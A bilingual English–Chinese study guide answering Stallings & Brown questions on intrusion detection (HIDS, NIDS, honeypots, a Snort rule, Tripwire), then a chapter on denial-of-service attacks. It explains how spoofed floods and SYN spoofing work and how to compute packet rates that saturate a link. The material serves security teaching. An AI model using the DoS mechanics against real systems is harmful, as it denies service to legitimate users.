- Statistical: analyzes the observed behavior with univariate, multivariate or time-series models of metrics, comparing the current profile with the profile of normal use.统计型：用单变量、多变量或时间序列模型分析观察到的行为，把当前的行为特征与正常使用时的特征进行比较。
- Knowledge based: an expert system that classifies behavior with a set of rules, often written by hand, which model legitimate behavior (for example a finite-state machine). It is robust and flexible, but building good rules takes time and expert help.基于知识型：一个专家系统，用一组规则对行为进行分类。这些规则通常是人工编写的，用来刻画合法行为（例如有限状态机）。它稳健且灵活，但编写好的规则需要时间，并且需要专家的帮助。
- Machine learning: data mining techniques automatically derive a classification model from labeled normal training data. It is flexible and adaptive, but training needs time and computing resources.机器学习型：数据挖掘技术从带标签的正常训练数据中自动推导出分类模型。它灵活且能自适应，但训练需要时间和计算资源。
E13. (Review Question 8.13, Stallings & Brown) List a number of machine-learning approaches used in anomaly detection systems.E13.（复习题 8.13，Stallings & Brown）列出异常检测系统中使用的若干机器学习方法。
Answer
- Bayesian networks: encode probabilistic relationships among the observed metrics.贝叶斯网络：编码观察到的指标之间的概率关系。
- Markov models: states, some hidden, linked by transition probabilities.马尔可夫模型：由状态（其中一些状态是隐藏的）以及状态之间的转移概率构成。
- Neural networks: simulate neurons and synapses to classify the observed data.神经网络：模拟神经元和突触，对观察到的数据进行分类。
- Fuzzy logic: approximate reasoning with fuzzy sets that tolerates uncertainty.模糊逻辑：用模糊集进行近似推理，能容忍不确定性。
- Genetic algorithms: use inheritance, mutation, selection and recombination to evolve classification rules.遗传算法：利用遗传、变异、选择和重组来演化分类规则。
- Clustering and outlier detection: group the data by a similarity or distance measure and flag data that fall in no cluster.聚类与离群点检测：按相似度或距离度量对数据分组，并标记那些不属于任何簇的数据。
E14. (Review Question 8.14, Stallings & Brown) What is the difference between signature detection and rule-based heuristic identification?E14.（复习题 8.14，Stallings & Brown）特征码检测与基于规则的启发式识别有什么区别？
Answer
Signature detection matches a large collection of known patterns of malicious data against data stored on a system or in transit, as in anti-virus products and many NIDS. It is cheap and widely accepted, but signatures must be created continually for new malware, and it cannot detect zero-day attacks.特征码检测把大量已知的恶意数据模式与存储在系统中或正在传输的数据进行匹配，防病毒产品和许多 NIDS 都采用这种方法。它成本低、被广泛接受，但必须不断为新的恶意软件制作特征码，而且它无法检测零日攻击。
Rule-based heuristic identification uses rules that describe known penetrations or the exploitation of known weaknesses, and also rules for suspicious behavior, even if that is inside the bounds of normal use. The rules are usually specific to a machine and operating system, and are developed from analysis of attack tools or from interviews with administrators and analysts. So signatures match data patterns, and heuristics test behavior with rules.基于规则的启发式识别使用两类规则：一类描述已知的入侵方式，或对已知弱点的利用；另一类描述可疑行为，即使这些行为仍在正常使用的范围之内。这些规则通常针对特定的机器和操作系统，并且是通过分析攻击工具，或访谈管理员和分析人员而制定的。因此，特征码匹配的是数据模式，而启发式则用规则来检验行为。
E15. (Review Question 8.15, Stallings & Brown) List and briefly describe some data sources used in a HIDS.E15.（复习题 8.15，Stallings & Brown）列出并简要描述 HIDS 使用的一些数据来源。
Answer
- System call traces: the sequence of system calls made by processes. This is the preferred and richest source, mainly on Unix and Linux. It is difficult on Windows because DLLs hide which process makes which call, and it loads the system.系统调用轨迹：进程所做的系统调用序列。这是首选且信息最丰富的数据来源，主要用于 Unix 和 Linux。在 Windows 上很难使用，因为 DLL 会掩盖是哪个进程发起了哪次调用，而且收集它会加重系统负担。
- Audit (log file) records: accounting data of the operating system. No extra collection software is needed, but the records may lack the needed detail, and intruders may alter them.审计（日志文件）记录：操作系统的记账数据。无需额外的收集软件，但记录可能缺少所需的细节，而且入侵者可能篡改它们。
- File integrity checksums: periodic comparison of cryptographic checksums of critical files with known good values (Tripwire). It must be protected and is hard for files that change.文件完整性校验和：定期将关键文件的密码学校验和与已知的正确值进行比较（如 Tripwire）。校验和本身必须受到保护，而且对于经常变化的文件很难使用。
- Registry access: monitoring access to the Windows registry. It is Windows specific and has had limited success.注册表访问：监控对 Windows 注册表的访问。它只针对 Windows，效果有限。
E16. (Review Question 8.16, Stallings & Brown) Are anomaly HIDSs or signature and heuristic HIDSs currently more commonly deployed? Why?E16.（复习题 8.16，Stallings & Brown）目前哪种 HIDS 部署得更多：异常型，还是特征码与启发式型？为什么？
Answer
Signature and heuristic HIDSs are more common, above all as anti-virus or anti-malware products on clients, mobile devices, and in mail and web proxies. They are efficient, cheap to run, well understood, and detect known malware reliably.特征码与启发式 HIDS 更为常见，尤其是作为客户端、移动设备以及邮件和 Web 代理上的防病毒或反恶意软件产品。它们效率高、运行成本低、原理为人熟知，并且能可靠地检测已知恶意软件。
Anomaly HIDSs are mostly research systems. They need a training phase and heavy processing of system call traces, and they have false positives. System call traces work on Unix and Linux but not well on Windows, which is the most targeted platform. Their advantage is that they can detect zero-day attacks, so deployment may grow.异常型 HIDS 主要还是研究系统。它们需要训练阶段，并要大量处理系统调用轨迹，而且会产生误报。系统调用轨迹在 Unix 和 Linux 上可用，但在 Windows 上效果不好，而 Windows 恰恰是攻击最多的平台。它们的优势是能检测零日攻击，因此部署可能会增加。
E17. (Review Question 8.17, Stallings & Brown) What advantages does a distributed HIDS provide over a single system HIDS?E17.（复习题 8.17，Stallings & Brown）分布式 HIDS 相比单机 HIDS 有什么优势？
Answer
A typical organization has many hosts on a network. Stand-alone HIDSs see only their own host, whereas a distributed HIDS has host agents (and LAN monitor agents) that send standardized audit data to a central manager. The manager correlates reports from several hosts and the network, so it can detect coordinated or distributed attacks that no single host sees as suspicious, and it gives a coordinated defense and a single management point.一个典型的组织在网络上有许多主机。独立的 HIDS 只能看到自己所在的主机，而分布式 HIDS 有主机代理（以及 LAN 监控代理），它们把标准化的审计数据发送给一个中心管理器。管理器对来自多台主机和网络的报告进行关联分析，因此能发现协同或分布式攻击，而这些攻击在任何单台主机看来都不可疑。它还提供协同防御和单一管理入口。
Two points need care: the transmitted data need integrity (so an intruder cannot mask activity) and confidentiality, and a central manager can be a bottleneck and single point of failure unless the architecture is decentralized.有两点需要注意：传输的数据需要完整性（使入侵者无法掩盖活动）和机密性；而且除非采用去中心化架构，否则中心管理器可能成为瓶颈和单点故障。
E18. (Review Question 8.18, Stallings & Brown) Describe the types of sensors that can be used in a NIDS.E18.（复习题 8.18，Stallings & Brown）描述 NIDS 可以使用的传感器类型。
Answer
There are two kinds of network sensors.网络传感器有两种。
- Inline sensor: placed in a network segment so that all monitored traffic passes through it. It can be a NIDS function in a firewall or LAN switch, or a stand-alone device. Its main benefit is that it can block an attack when it sees it, but it adds delay and is a point of failure.内联传感器：放置在网段中，使所有被监控的流量都经过它。它可以是防火墙或局域网交换机中的 NIDS 功能，也可以是独立设备。它的主要好处是看到攻击时能够阻断，但它会增加延迟，并且自身是一个故障点。
- Passive sensor: monitors a copy of the traffic, obtained for example through a physical tap or a switch mirror port, so the real traffic does not pass through it. It adds no delay and is the more common kind, but it can only detect and alert, not block.被动传感器：监控流量的一份副本，例如通过物理分路器或交换机的镜像端口获得，因此真正的流量不经过它。它不增加延迟，是更常见的一种，但它只能检测并告警，不能阻断。
E19. (Review Question 8.19, Stallings & Brown) What are possible locations for NIDS sensors?E19.（复习题 8.19，Stallings & Brown）NIDS 传感器可能放在哪些位置？
Answer
For a site with an external firewall, four typical locations are:对于带有外部防火墙的站点，有四个典型位置：
- Just inside the external firewall: sees attacks that get through the perimeter, shows firewall policy or performance problems, sees attacks against web or FTP servers, and may see the outgoing traffic of a compromised server.紧邻外部防火墙的内侧：能看到穿过边界的攻击，能显示防火墙策略或性能方面的问题，能看到针对 Web 或 FTP 服务器的攻击，并且可能看到被入侵服务器发出的流量。
- Between the external firewall and the Internet: sees all traffic unfiltered, so it documents the number and type of attacks, but it has the highest processing load.外部防火墙与互联网之间：未经过滤，能看到所有流量，因此可以记录攻击的数量和类型，但处理负载最高。
- On the internal backbone networks that carry servers and databases: monitors a large part of the traffic and also finds activity by authorized insiders.内部骨干网上，即承载服务器和数据库的网络：能监控大部分流量，也能发现授权内部人员的活动。
- On a department or critical subnet (for example personnel or finance): focuses limited resources on the most valuable assets and can be tuned to specific protocols.部门或关键子网上（例如人事或财务）：把有限的资源集中在最有价值的资产上，并且可以针对特定协议进行调优。
E20. (Review Question 8.21, Stallings & Brown) What are some motivations for using a distributed or hybrid IDS?E20.（复习题 8.21，Stallings & Brown）使用分布式或混合 IDS 的动机有哪些？
Answer
- Selectively placed IDSs may miss a network-based attack or be slow to see it, and several IDSs that share information give wider coverage and a faster response, especially against slowly growing attacks.位置选择不当的 IDS 可能漏掉基于网络的攻击，或者发现得较慢；而相互共享信息的多个 IDS 能提供更广的覆盖面和更快的响应，对于增长缓慢的攻击尤其有效。
- Analysis at the host sees much less traffic than a router does, so attack patterns stand out better (a higher signal-to-noise ratio).在主机上进行分析所看到的流量比在路由器上少得多，因此攻击模式更加突出（信噪比更高）。
- Host-based detectors can use richer data, such as application data of the host.基于主机的检测器可以使用更丰富的数据，例如主机上的应用数据。
- Sensors in different places can corroborate each other, which reduces false alarms and gives a central view for adapting policies.分布在不同位置的传感器可以相互印证，这能减少误报，并为调整策略提供集中视图。
- Perimeter defenses alone do not stop targeted attacks that bypass the firewall or NIDS.仅靠边界防御无法阻止绕过防火墙或 NIDS 的定向攻击。
E21. (Review Question 8.22, Stallings & Brown) What is a honeypot?E21.（复习题 8.22，Stallings & Brown）什么是蜜罐？
Answer
A honeypot is a decoy resource that has no production value and that is designed to attract attackers. No legitimate user has any reason to contact it, so any communication with it is most likely a probe, scan or attack. It is instrumented to collect detailed information on the attacker's methods, to divert attackers from real systems, and to give early warning of attacks. It can be a single machine or a whole honeynet that imitates an enterprise. Its risk is that, if it is compromised, it may be used to attack other systems.蜜罐是一种诱饵资源，没有生产价值，设计目的是吸引攻击者。合法用户没有理由与它通信，因此任何与它的通信很可能都是探测、扫描或攻击。它配有监测设备，用来收集攻击者方法的详细信息、把攻击者从真实系统引开，并对攻击提供早期预警。它可以是一台机器，也可以是模拟企业网络的整个蜜网。它的风险在于：一旦被攻陷，它可能被用来攻击其他系统。
E22. (Review Question 8.23, Stallings & Brown) List and briefly define the two types of honeypots that may be deployed.E22.（复习题 8.23，Stallings & Brown）列出并简要定义可以部署的两类蜜罐。
Answer
- Low-interaction honeypot: a software package that emulates particular services or systems well enough for a realistic initial interaction, but does not run the real services. It is cheap and safe, and good for detecting the early steps of an attack (scans), but an attacker can soon recognize it.低交互蜜罐：一个软件包，能模拟特定的服务或系统，足以支持逼真的初步交互，但并不运行真正的服务。它成本低且安全，适合发现攻击的早期步骤（如扫描），但攻击者很快就能识别出它。
- High-interaction honeypot: a real system with a full operating system, services and applications, instrumented and exposed to attackers. It is a realistic target that can keep an attacker busy for long and gives rich data, but it needs more resources and, if compromised, can be used to attack others, with legal or reputation consequences.高交互蜜罐：一个真实的系统，拥有完整的操作系统、服务和应用，并进行了监测，暴露给攻击者。它是一个逼真的目标，能让攻击者长时间忙碌，并提供丰富的数据，但它需要更多资源；一旦被攻陷，还可能被用来攻击其他系统，从而带来法律或声誉方面的后果。
E23. (Problem 8.4, Stallings & Brown) The Snort option flow distinguishes clients and servers: it can restrict a match to one direction (client to server or the reverse) and to established TCP connections. Consider the ruleE23.（习题 8.4，Stallings & Brown）Snort 选项 flow 用于区分客户端和服务器：它可以把匹配限制在一个方向（从客户端到服务器，或反向），以及已建立的 TCP 连接之内。考虑下面的规则
alert tcp $EXTERNAL_NET any -> $SQL_SERVERS $ORACLE_PORTS (msg: "ORACLE create database attempt"; flow: to_server, established; content: "create database"; nocase; classtype: protocol-command-decode;)
(a) What does this rule do? (b) Comment on the significance of this rule if the Snort device is placed inside or outside of the external firewall.(a) 该规则做什么？(b) 如果 Snort 设备放在外部防火墙的内侧或外侧，这条规则的意义有什么不同？
Answer
(a) The rule header selects TCP packets from any host of the external network and any source port to the SQL servers on the Oracle ports. The option flow: to_server, established restricts it to packets that go from the client to the server within an already established TCP connection (so not scan packets or handshake packets). content: "create database" with nocase matches that text in the payload, in any letter case. When all conditions hold, Snort generates an alert with the message "ORACLE create database attempt" and the class protocol-command-decode. So the rule detects an outside user issuing a CREATE DATABASE command to the Oracle server, which is an administrative command that outsiders should never send.(a) 该规则头选中来自外部网络任意主机、任意源端口、发往 Oracle 端口上 SQL 服务器的 TCP 包。选项 flow: to_server, established 把它限制为在已建立的 TCP 连接中、从客户端到服务器的包（因此不包括扫描包或握手包）。content: "create database" 与 nocase 匹配载荷中的该文本，不区分大小写。当所有条件都满足时，Snort 会发出告警，消息为 "ORACLE create database attempt"，类别为 protocol-command-decode。因此，该规则能检测外部用户向 Oracle 服务器发出 CREATE DATABASE 命令，这是一条外部人员绝不应该发送的管理命令。
(b) Inside the external firewall the sensor sees only what the firewall has allowed. An alert then means that the firewall let Oracle traffic from the Internet through (a policy problem or a legitimate client) and that someone really tried to run the command at the server, so it is significant and needs a response. Outside the firewall the sensor sees all attempts, including those the firewall would block, so it gives a view of the attack volume but many alerts are not a real threat to the servers and add noise.(b) 在外部防火墙内侧，传感器只能看到防火墙放行的流量。因此，一条告警意味着防火墙放行了来自互联网的 Oracle 流量（可能是策略问题，也可能是合法客户端），并且确实有人试图在服务器上运行该命令，所以它很重要，需要响应。在外部防火墙外侧，传感器能看到所有尝试，包括防火墙会阻断的那些，因此它能反映攻击的规模，但很多告警并不构成对服务器的真实威胁，只会增加噪声。
E24. (Problem 8.5, Stallings & Brown) The probability density functions of the measured behavior of authorized users and of intruders overlap in a region, and this region is where false positives and false negatives can occur. Suppose there is 1 actual intrusion for every 1000 authorized users, and the overlapping area covers 1% of the authorized users and 50% of the intruders. (a) Sketch such a set of density functions and argue that this is not an unreasonable depiction. (b) What is the probability that an event that occurs in this region is that of an authorized user?E24.（习题 8.5，Stallings & Brown）授权用户和入侵者所测得行为的概率密度函数在某一区域内重叠，误报和漏报就发生在这一区域。假设每 1000 名授权用户中有 1 次真正的入侵，重叠区域覆盖 1% 的授权用户和 50% 的入侵者。(a) 画出这样一组密度函数，并论证这种描绘并非不合理。(b) 落在该区域内的事件属于授权用户的概率是多少？
Answer
(a) The authorized-user curve has a very large area (1000 times more events) and a narrow peak at normal behavior, with only a thin tail (1% of its area) reaching into the overlap. The intruder curve has a tiny area, and half of its area (50%) lies in the overlap, because intruders try to look like normal users.(a) 授权用户的曲线下面积很大（事件多 1000 倍），在正常行为处有一个狭窄的峰，只有很薄的尾部（占其面积的 1%）伸入重叠区域。入侵者曲线的面积很小，其中有一半面积（50%）落在重叠区域内，因为入侵者会试图伪装成正常用户。
density
^ authorized users (area 1000)
| /\
| / \
| / \
| / \___ <- 1% of the area in the overlap
| / ....\.\..... intruders (area 1), 50% in the overlap
+--+-------+--+-------> measured behavior
normal overlap
This is reasonable: normal behavior is concentrated and predictable, while an intruder who stays near normal behavior is hard to separate. The tails of the normal curve are short.这是合理的：正常行为集中且可预测，而一个保持在正常行为附近的入侵者则很难与之区分。正常曲线的尾部很短。
(b) Take 1000 authorized users and 1 intruder. The overlap has 1% of 1000 = 10 authorized events and 50% of 1 = 0.5 intruder events. By Bayes' rule(b) 取 1000 名授权用户和 1 名入侵者。重叠区域内有 1% × 1000 = 10 个授权用户事件，以及 50% × 1 = 0.5 个入侵者事件。根据贝叶斯规则
\[P(\text{authorized} \mid \text{region}) = \frac{10}{10 + 0.5} = \frac{20}{21} \approx 0.952.\]
About 95% of the events in the region come from authorized users. Any alarm raised in this region is therefore a false alarm 95% of the time, which is the base-rate fallacy at work.区域内约 95% 的事件来自授权用户。因此，在这一区域内发出的任何告警，有 95% 的概率是误报，这正是基率谬误的体现。
E25. (Problem 8.6, Stallings & Brown) Tripwire is a host-based intrusion detection tool that scans files and directories regularly and notifies the administrator of changes. It keeps a protected database of cryptographic checksums, recomputes them at each scan and compares. It must be configured with the files and directories to check and with the changes that are permitted for each (for example, log files may only have entries appended). What are the advantages and disadvantages of such a tool?E25.（习题 8.6，Stallings & Brown）Tripwire 是一种基于主机的入侵检测工具，它定期扫描文件和目录，并在发生变化时通知管理员。它保存一个受保护的密码学校验和数据库，每次扫描时重新计算校验和并进行比较。必须为它配置要检查的文件和目录，以及每个目标允许的变化（例如，日志文件只能追加条目）。这类工具的优点和缺点是什么？
Answer
Advantages:优点：
- It needs no knowledge of the attack: any change to a protected program, script or configuration file is detected, including changes by new malware, backdoors and rootkits that signature tools do not know.它不需要了解攻击本身：对受保护程序、脚本或配置文件的任何更改都能被检测到，包括特征码工具无法识别的新恶意软件、后门和 rootkit 所做的更改。
- Cryptographic checksums make changes certain to show, even a single changed bit.密码学校验和使任何更改都必然会被发现，哪怕只改动了一个比特。
- It detects both external and internal tampering, is cheap to run, and shows what exactly was changed, which helps recovery.它既能检测外部篡改，也能检测内部篡改，运行成本低，并且能显示究竟改动了什么，这有助于恢复。
Disadvantages:缺点：
- It detects only after the change, and cannot see changes made to a process in memory.它只能在变化发生之后才检测到，并且看不到对内存中进程所做的更改。
- It needs a known good baseline (a clean system) and a protected checksum database, and the tool itself must be protected, otherwise an intruder changes both.它需要已知的正确基线（一个干净的系统）和受保护的校验和数据库，而且工具本身也必须受到保护，否则入侵者会同时改掉两者。
- Configuration is a lot of work: administrators must decide which files should never change (binaries), which change rarely or only in a certain way (logs: append only), and which change all the time and cannot be checked (temporary files, user data). A wrong choice gives either gaps or noise.配置工作量很大：管理员必须决定哪些文件绝不应改变（如二进制程序），哪些很少改变或只能以特定方式改变（如日志：只能追加），哪些一直在变化且无法校验（如临时文件和用户数据）。选择不当会造成漏洞，或产生大量噪声。
- Legitimate updates and patches change many files and cause alarms, so the baseline must be updated and each report reviewed by the administrator, which takes time. If there are too many false reports the administrator may start to ignore them.合法的更新和补丁会改动许多文件并引发告警，因此必须更新基线，并由管理员审查每份报告，这需要花费时间。如果误报太多，管理员可能会开始忽略它们。
思路：能发现任何文件改动，但事后才发现、依赖干净基线，并且配置和人工复核工作量大。
Chapter 23Denial-of-Service Attacks and Botnets拒绝服务攻击与僵尸网络Reading: Stallings & Brown Ch. 7
Nature of DoS Attacks and Source Address Spoofing ★★★DoS 攻击的性质与源地址欺骗
Goal. Define a denial-of-service attack, name the three kinds of resource it exhausts, compute how many packets per second fill a link, and explain why attackers forge the source address and what backscatter is.目标。 定义拒绝服务攻击，说出它耗尽的三类资源，计算填满链路所需的每秒包数，并解释攻击者为什么伪造源地址，以及什么是反向散射。
Step 1: what a DoS attack is第 1 步：什么是 DoS 攻击
In words: a denial-of-service attack = using up something the service needs, so that real users cannot be served.用文字表述：拒绝服务攻击 = 耗尽服务所需的某种资源，使真正的用户无法得到服务。
A denial-of-service (DoS) attack（拒绝服务攻击）prevents or impairs the authorised use of networks, systems or applications by exhausting resources such as CPU, memory, bandwidth and disk space. It attacks availability (Chapter 1). There are three kinds of target.拒绝服务（DoS）攻击通过耗尽 CPU、内存、带宽和磁盘空间等资源，阻止或损害对网络、系统或应用的授权使用。它攻击的是可用性（见第 1 章）。目标有三类。
| Target目标 | How it is exhausted耗尽方式 | Examples示例 |
|---|---|---|
| Network bandwidth网络带宽 | Traffic fills the access link to the ISP, which is slower than the ISP's own links流量填满通往 ISP 的接入链路，而该链路比 ISP 自身的链路慢 | ICMP, UDP and SYN floodsICMP、UDP 与 SYN 洪泛 |
| System resources系统资源 | Buffers or connection tables fill, or a poison packet（毒包）crashes buggy network code until reboot缓冲区或连接表被填满，或者一个毒包使有缺陷的网络代码崩溃，直至重启 | SYN spoofing; ping of death (ICMP echo handling); teardrop (fragment handling)SYN 欺骗；ping of death（ICMP 回显处理）；teardrop（分片处理） |
| Application resources应用资源 | Valid requests that each need much work, or trigger a server bug每个都需要大量处理的合法请求，或触发服务器缺陷的请求 | Cyberslam: costly database queries; HTTP flood; SlowlorisCyberslam：代价高昂的数据库查询；HTTP 洪泛；Slowloris |
Example for the first row: a shop has a 10 Mbit/s access link. An attacker sends 10 Mbit/s of junk to it. The link is full, and customers' requests are dropped with the junk.第一行的例子：一家商店有一条 10 Mbit/s 的接入链路。攻击者向它发送 10 Mbit/s 的垃圾流量。链路被占满，顾客的请求连同垃圾流量一起被丢弃。
A poison packet（毒包）is a single packet that crashes buggy network code. It needs almost no traffic.毒包是一个能使有缺陷的网络代码崩溃的单个包，它几乎不需要什么流量。

In a DoS attack nearly all arriving traffic is malicious. So the router drops the excess without distinction, and legitimate packets rarely survive.在 DoS 攻击中，几乎所有到达的流量都是恶意的。因此路由器会不加区分地丢弃超出的部分，合法的包很少能幸存。
Step 2: classic flooding and how many packets it takes第 2 步：经典洪泛及需要多少个包
In words: to fill a link, send as many bits per second as the link carries; the packet count follows from the packet size.用文字表述：要填满链路，就要以链路承载的最大比特率发送数据；包数则由包的大小决定。
The simplest attack is a flood from a host whose own connection is faster than the target's link, for example a flooding ping.最简单的攻击是来自一台主机的洪泛，该主机自身的连接比目标的链路更快，例如洪泛 ping。
Example: 500-byte packets and a 2 Mbit/s link. One packet is \(500 \times 8 = 4{,}000\) bits. So \(r = 2{,}000{,}000 / 4{,}000 = 500\) packets/s. On a 100 Mbit/s link, 1,500-byte packets need about 8,333 packets/s and 64-byte packets about 195,000 packets/s. Big packets make the attack cheaper for the attacker's host.例如：500 字节的包和 2 Mbit/s 的链路。一个包是 \(500 \times 8 = 4{,}000\) 比特，所以为 \(r = 2{,}000{,}000 / 4{,}000 = 500\) 包/秒。在 100 Mbit/s 的链路上，1,500 字节的包约需 8,333 包/秒，64 字节的包约需 195,000 包/秒。包越大，攻击者主机的成本越低。
Step 3: source address spoofing第 3 步：源地址欺骗
In words: spoofing = writing a false sender address on every attack packet, so that nobody can tell who sent it.用文字表述：欺骗 = 在每个攻击包上写入假的发送者地址，使任何人都无法辨认是谁发送的。
A plain flood has two drawbacks for the attacker. The real address is in every packet. The target's replies, for example echo replies, also come back to the attacker. So the attacker forges the source.普通的洪泛对攻击者有两个缺点。每个包中都带有真实地址。而且目标的回复，例如回显应答，也会返回给攻击者。因此攻击者要伪造源地址。
Source address spoofing（源地址欺骗）puts a forged source address, usually a different random one per packet, into the attack packets. It needs privileged access to the network code, typically the raw socket interface that operating systems keep for compatibility.源地址欺骗是在攻击包中放入伪造的源地址，通常每个包使用一个不同的随机地址。它需要对网络代码的特权访问，通常是操作系统为兼容性保留的原始套接字接口。
- The replies (echo replies, SYN-ACKs, ICMP unreachable) go to the forged addresses, not to the attacker.回复（回显应答、SYN-ACK、ICMP 不可达）发往伪造的地址，而不是攻击者。
- The header no longer names the source. Tracing needs flow data from every router on the path, requested by hand from each operator.包头不再标明源。追溯需要每台路由器上的流数据，要由人工逐一向每个运营方请求。
- TCP/IP does not check source addresses. Ingress filtering（入口过滤）near the source (RFC 2827) does check them, but many ISPs do not apply it.TCP/IP 不检查源地址。靠近源端的入口过滤（RFC 2827）会检查这些地址，但许多 ISP 并未启用它。
Step 4: backscatter第 4 步：反向散射
In words: backscatter = the replies to forged packets that land on addresses nobody uses, and so reveal that an attack is going on.用文字表述：反向散射 = 对伪造包的回复落到无人使用的地址上，从而揭示正在发生攻击。
Backscatter（反向散射流量）is reply traffic that arrives at unused address blocks. Researchers announce routes to such a block and log what arrives. No host uses the block, so each packet is a side effect of a spoofed attack. The types and volumes show the kind and the scale of the attacks. Floods and SYN spoofing with random sources produce backscatter. Reflection attacks (Section 23.5) do not.反向散射流量是到达未使用地址块的回复流量。研究人员公告通往这样一个地址块的路由，并记录到达的内容。没有主机使用该地址块，因此每个包都是伪造攻击的副产品。这些包的类型和数量显示了攻击的种类和规模。使用随机源地址的洪泛和 SYN 欺骗会产生反向散射，反射攻击（见 23.5 节）则不会。
Practice练习
Q1. (Calculation) An attacker floods a target with 500-byte ICMP echo requests (framing ignored). How many packets per second saturate a 0.5-Mbps, a 2-Mbps and a 10-Mbps link? Why does a larger packet make the attack cheaper to generate?Q1.（计算）攻击者以 500 字节的 ICMP 回显请求洪泛目标（忽略帧开销）。每秒需要多少个数据包才能使 0.5 Mbps、2 Mbps 和 10 Mbps 的链路饱和？为什么更大的数据包使攻击更易生成？
Answer
500 bytes \(=4{,}000\) bits, so \(r=C/(8s)\) gives \(500{,}000/4{,}000=125\) packets/s for 0.5 Mbps, \(2{,}000{,}000/4{,}000=500\) packets/s for 2 Mbps and \(2{,}500\) packets/s for 10 Mbps. For the same bandwidth a larger packet means fewer packets: on a 100-Mbps link 1,500-byte packets need 8,333 packets/s, 64-byte packets about 195,000. The attacker's host does less work per bit of flood.500 字节 \(=4{,}000\) bit，因此 \(r=C/(8s)\) 给出：0.5 Mbps 时 \(500{,}000/4{,}000=125\) 个数据包/秒，2 Mbps 时 \(2{,}000{,}000/4{,}000=500\) 个数据包/秒，10 Mbps 时 \(2{,}500\) 个数据包/秒。在相同带宽下，数据包越大，数据包数越少：在 100 Mbps 链路上，1,500 字节的数据包需要 8,333 个数据包/秒，而 64 字节的数据包约需 195,000 个。攻击者主机为每比特洪泛流量所做的工作更少。
思路：字节乘 8 得比特，再用链路速率去除。
Q2. (Explain) A single host floods a server with echo requests that carry its own address. (a) Give two reasons why the attacker prefers forged source addresses. (b) What does forging change for the investigator?Q2.（解释）单台主机以携带自身地址的回显请求洪泛某服务器。（a）给出攻击者偏好伪造源地址的两个理由。（b）伪造给调查人员带来了哪些变化？
Answer
(a) The real address identifies the attacker, so legal action becomes likely. The target's echo replies also return to the attacker, which loads its own link and makes the attack easier to detect. (b) With a random forged address in each packet the header no longer names the source, and the replies are scattered over the Internet. The investigator must follow the flow router by router, using flow data requested manually from each operator, which takes time and cooperation.（a）真实地址会标识攻击者，因此更可能招致法律追究。目标的回显应答也会返回攻击者，这会加重攻击者自身链路的负荷，并使攻击更易被发现。（b）每个数据包使用随机伪造地址时，数据包头部不再标明源，应答则散布于整个因特网。调查人员必须逐台路由器追踪流量，并向各运营方人工申请流数据，这既耗时又需要对方配合。
Q3. (Beyond the pages: backscatter) A monitor receives all traffic sent to an unused /8 block (\(2^{24}\) of the \(2^{32}\) IPv4 addresses). During a spoofed SYN attack on one server it records 40 SYN-ACKs per second from that server. Assume the forged sources are drawn uniformly from the whole address space and each forged SYN yields one SYN-ACK. Estimate the attack rate and its bandwidth with 40-byte SYNs. Why can this not be done for a reflection attack?Q3.（超出正文：反向散射）一台监测器接收发往某未使用 /8 地址块的全部流量（占 IPv4 地址总数 \(2^{32}\) 的 \(2^{24}\)）。在针对某服务器的伪造 SYN 攻击期间，它每秒记录到该服务器发出的 40 个 SYN-ACK。假设伪造源地址在整个地址空间中均匀抽取，且每个伪造 SYN 产生一个 SYN-ACK。以 40 字节的 SYN 估算攻击速率及其带宽。为什么对反射攻击无法做出这种估算？
Answer
The monitor covers the fraction \(2^{24}/2^{32}=1/256\) of the addresses, so it sees \(1/256\) of the replies. The attack rate is about \(40\times256=10{,}240\) SYN/s, i.e. \(10{,}240\times320\approx3.3\) Mbps. (Retransmitted SYN-ACKs and SYNs dropped by a full table make real estimates harder.) In a reflection attack the forged address is the target's, so every packet goes to the target and no backscatter reaches the Internet.监测器覆盖地址的比例为 \(2^{24}/2^{32}=1/256\)，因此它看到的是 \(1/256\) 的应答。攻击速率约为 \(40\times256=10{,}240\) SYN/s，即 \(10{,}240\times320\approx3.3\) Mbps。（重传的 SYN-ACK，以及因连接表已满而被丢弃的 SYN，使真实估计更加困难。）在反射攻击中，伪造地址是目标的地址，因此每个数据包都发往目标，没有反向散射流量到达因特网。
SYN Spoofing and Flooding Attacks ★★★SYN 欺骗与洪泛攻击
Goal. Walk through the TCP handshake and a SYN spoofing attack step by step, compute the SYN rate that keeps a connection table full, tell SYN spoofing from flooding, and name the flood types.目标。 逐步走查 TCP 三次握手和 SYN 欺骗攻击，计算使连接表保持满状态的 SYN 速率，区分 SYN 欺骗与洪泛，并说出各类洪泛。
Step 1: the normal three-way handshake第 1 步：正常的三次握手
In words: the handshake = SYN, SYN-ACK, ACK: the client asks, the server agrees, the client confirms.用文字表述：握手 = SYN、SYN-ACK、ACK：客户端请求，服务器同意，客户端确认。

- The client sends a SYN (synchronise) with its address, port and initial sequence number.客户端发送 SYN（同步），其中包含它的地址、端口和初始序列号。
- The server records the request in its table of known TCP connections. It answers with a SYN-ACK that carries its own sequence number and the client's number plus one.服务器把该请求记入其已知 TCP 连接表中。它以 SYN-ACK 应答，其中包含服务器自己的序列号，以及客户端序列号加一。
- The client answers ACK with the server's number plus one. Both sides mark the connection as established.客户端以 ACK 应答，确认号为服务器序列号加一。双方都把连接标记为已建立。
Step 2: the SYN spoofing attack第 2 步：SYN 欺骗攻击
In words: SYN spoofing = send many SYNs with false return addresses, so that the server fills its table with half-open entries that never complete.用文字表述：SYN 欺骗 = 发送大量带有假返回地址的 SYN，使服务器的表中充满永远无法完成的半开表项。

SYN spoofing（SYN 欺骗）goes like this.SYN 欺骗的过程如下。
- The attacker sends a stream of SYNs. Each carries a different forged source address.攻击者发送一连串 SYN，每个都带有不同的伪造源地址。
- For each SYN the server saves an entry and sends a SYN-ACK to the claimed address.对每个 SYN，服务器保存一个表项，并向声称的地址发送 SYN-ACK。
- Two things can happen at the claimed address. A live host answers RST (reset), because it never asked for a connection, and the server deletes the entry. A busy host, or an unused address, sends no reply.在声称的地址上可能出现两种情况。一台活动主机会回复 RST（复位），因为它从未请求过连接，于是服务器删除该表项。一台繁忙的主机，或一个未使用的地址，不会回复。
- With no reply the server resends the SYN-ACK several times. It deletes the entry only after the last timeout.没有回复时，服务器会多次重发 SYN-ACK，并且只在最后一次超时之后才删除该表项。
- When the table is full, every new SYN, legitimate or not, is rejected. The server stays cut off as long as the attacker keeps up the rate.表满之后，每一个新的 SYN，无论合法与否，都会被拒绝。只要攻击者保持这一速率，服务器就会一直无法提供服务。
